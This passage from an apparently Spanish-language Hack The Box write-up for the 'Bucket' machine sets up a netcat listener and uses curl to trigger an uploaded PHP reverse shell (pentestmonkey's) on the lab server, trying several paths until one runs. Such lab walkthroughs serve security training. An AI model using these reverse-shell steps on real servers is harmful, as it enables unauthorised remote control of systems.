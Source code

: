 Nos ponemos en escucha, en mi caso por el puerto `4433`:

```bash
–» nc -nlvp 4433
listening on [any] 4433 ...
```

Probamos desde consola hacer una petición hacia el archivo:

```bash
–» curl -s http://s3.bucket.htb/adserver/images/ejejerev.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

Claramente no es ejecutado... Pero ¿Y si probamos con el servidor principal?

```bash
–» curl -s http://bucket.htb/adserver/images/ejejerev.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at bucket.htb Port 80</address>
</body></html>
```

Y con solo la carpeta `/images/`?

```bash
–» curl -s http://bucket.htb/images/ejejerev.php
```

![283bash_bucketHTB_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bucket/283bash_bucketHTB_revsh.png)
